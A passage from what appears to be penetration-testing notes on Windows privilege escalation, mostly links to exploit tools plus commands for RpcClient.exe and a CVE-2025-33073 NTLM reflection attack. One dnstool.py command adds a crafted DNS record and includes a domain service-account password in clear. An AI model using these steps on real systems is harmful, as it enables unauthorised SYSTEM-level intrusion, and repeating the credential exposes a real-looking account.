 ```bash
C:\Users\user\Desktop> RpcClient.exe
# Finally confirm we are part of Administrators and get an elevated prompt by providing our user creds

# Mitigations -> patch the OS, use Yara/Sigma rules to identify these executions, Splunk to monitor the network...
```
{% endcode %}

## SeRestorePrivilege

[https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

Use **rdesktop**&#x20;

```bash
rdesktop $IP
```

The **utilman.exe** is a built-in Windows application that is designed to allow users to configure system accessibility options such as the _Magnifier_, _High Contrast Theme_, _Narrator_, and _On Screen Keyboard_ before they log in to the system.

## SeManagePrivilege

[https://x.com/0gtweet/status/1303427935647531018](https://x.com/0gtweet/status/1303427935647531018)

[https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

An Alternative to PrintInfo trigger [https://github.com/sailay1996/WerTrigger](https://github.com/sailay1996/WerTrigger)

## From LOCAL SERVICE or NETWORK SERVICE to full privs

[https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)

## CVE-2025-33073 (NTLM reflection via SMB flaw)

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/mverschu/CVE-2025-33073

CVE-2025-33073 was published, this vulnerability allows me to execute commands with SYSTEM privileges on any machine in the domain that does not have SMB signing enabled.
However, NTLM reflection also works thanks to a well-known Active Directory trick: I can add a specially crafted DNS record that looks like [hostname]1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA. This tricks the system into switching NTLM authentication to local mode, which makes the reflection attack possible.

# See if we can add that DNS record
dnstool.py -u 'citadelle.ci\svc-ldapglpi' -p 'cIglpIs3rvic34ccoun!' 10.4.20.20 -a add -r CISRVPDC011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 198.51.100.4
```
{% endcode %}
